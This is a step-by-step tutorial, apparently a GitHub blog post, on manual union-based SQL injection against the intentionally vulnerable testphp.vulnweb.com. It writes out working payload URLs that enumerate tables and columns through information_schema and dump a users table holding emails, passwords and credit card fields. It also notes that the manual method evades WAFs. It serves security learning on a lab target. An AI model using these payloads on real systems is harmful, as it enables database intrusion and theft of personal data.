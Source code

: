 <h2>EXPLOITING UNION BASED SQL INJECTION MANUALLY</h2>

Hey Guys,

It's [0xvenus](https://twitter.com/0x_venus) again

HERE I SHOWCASE HOW TO PERFORM A BASIC UNION BASED SQL INJECTION (MANUALLY)

KINDLY CHECK NEXT POST FOR ADVANCED UNION BASED SQLI WHERE I SHOWED HOW TO BYPASS SOME WAFS AND FILTERS

``Performing a Union-Based SQL Injection attack manually involves injecting a crafted payload into an input field or parameter to manipulate a SQL query and retrieve unauthorized data from the database. Please note that attempting SQL injection on systems you don't own or have explicit permission to test is illegal and unethical. Only perform these actions in a controlled, legal environment with proper authorization.``

Target: https://testphp.vulnweb.com/ (intentionally vulnerable site created for testing purpose)

**STEP 1:**

``Finding the injection point: we can simply find the injection point of a site by dorking for parameters with value``

dork example: ``site:testphp.vulnweb.com inurl:php?``. There are many dorks online you can search for more.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/71e2cbe6-2ad8-4704-b9f3-58d3157b6528)

clicking on any of those pages in the result should reveal the directory with parameter.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/58b964c7-9ede-40cd-8e2a-d4d19d435995)

As you can see we have a parameter and a value which we can then confirm the vulnerabilty

**STEP 2**

``Confirming the vulnerability: we can easily confirm the vulnerability by throwing a single quote or double quotes at the end of the parameter``
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/1c2ec9d8-c6ee-4f2f-b026-fbcf65108af6)
As you can see it throws an SQL error which confirms the vulnnerability

**STEP 3**

``Adding a URL balancer(comment) to fix the error: well actually it only depends on the environment and reaction of application when we try some commenting operators. If you see php is used then usually "--" will surely work other wise you can check "--+" or "# (url encoded)", else the best option is to try with different types of comments and analyse the input. So what we will do to check is try to close our input with all possibilities like single quote double quote or brackets etc, and comment rest query and if it works then we can be sure that this comment is working.``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3541e6aa-8396-4dd6-aa65-7e5c2ad6f094)

No error after addiing the balancer. We can now proceed to the next step

**STEP 4**

``Finding the total number of columns present in the database``

we can easily use the ``order by`` or ``group by`` statement


![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/7f4aa84f-1f38-4a27-93d0-bab8aa9edb5f)

``order by 1`` didn't give error so we will keep increasing the number till we get error

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/29c929b1-85e3-4ca2-a288-994ec005e33f)

``order by 1000`` showed errors which means we dont have up to 1000 columns in the database

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/450dfa62-b496-41ca-826f-16caef47db97)

increasing the number i got error at ``order by 4`` which shows we have 3 columns present in the database


**STEP 5**

``Finding the vulnerable column: we will be injecting our SQL payloads in the vulnerable column``
 
 we can get the vulnerable column by adding a dot or a slash before the parametre value combined with the ``union select statement``
 
 ```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3```

***Note the - after the = sign***

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/25527c10-1785-4f3b-b1d6-814f4f97dd47)
Those numbers showing on the screen are the vulnerable columns so, you can choose the one you prefer for the injection

i will be choosing column 2 here.

**STEP 6**

``getting the database name and version: you can get the database version by inputing the @@version or version() and for db name database() in the vulnerable column``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e600515b-3169-4dcc-9ee9-aafc8d6b7fe5)

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/949e1917-e5e6-4667-aa93-d6b6ae8d4525)

```http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,version(),3```


**STEP 7**


``getting table names``

we can get the table names one by one by using the query  ``table_name``  in the vulnerable column and then adding ``from information_schema.tables where table_schema=database() limit 0,1`` at the end of the query


`First row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1
Second row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1
Third row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1
Forth row http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 3,1
and so on.`


Stressful right? lol i've gat your back mate


we can easily dump the table names once using the ``concat`` statement


```(SELECT+GROUP_CONCAT(table_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA=DATABASE())```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3d3ba4ed-842f-4f99-8668-f5dd9180e4bc)

cool we have the table names in a single shot

**STEP 8**

``getting the column names: we can get the columns in a table we want``

```http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,column_name,3 from information_schema.columns where table_schema=database() and table_name='users' limit 0,1```

Here i tried getting the columns in the *users* table 
NB: remember to keep increasing the number of limit after the query

so to get the columns in a shot we can use

```(SELECT+GROUP_CONCAT(column_name+SEPARATOR+'::')+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE())```

NB: set the value of the TABLE_NAME= to the table you are t5rying to get it columns

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c70af46f-e483-4d4e-a33a-88a78bd5524e)

As you can see we have the columns in the users table which are emails,creditcards,address,password e.t.c

```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(column_name+SEPARATOR+%27::%27)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users'+AND+TABLE_SCHEMA=DATABASE()),3```

let's proceed to the next step

**STEP 9** 

``dumping the juicy contents of the database like here we have columns; passwords,emails,creditcards e.t.c in the users table``


```http://testphp.vulnweb.com/artists.php?artist=-1+union+select+1,(SELECT+GROUP_CONCAT(email,'::',%20pass,'::',%20name,'::',%20cc,'::',uname,'::',%20phone%20+SEPARATOR+'::')+FROM+users%20),3```

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/4c5bc588-ce79-42e1-88a0-0d81313663af)

NB: i added the column names in a table to be able to dump it contents

so. note down the columns a table then replace them in the payload.


`Ps: union based SQLi is helpful because sqlmap cant bypass all Wafs and filters but you can, the success rate in dumping the database is high by doing it manually`


Thanks 

reach out to me on [Twitter](https://twitter.com/0x_venus) for any question

see you in the next post.























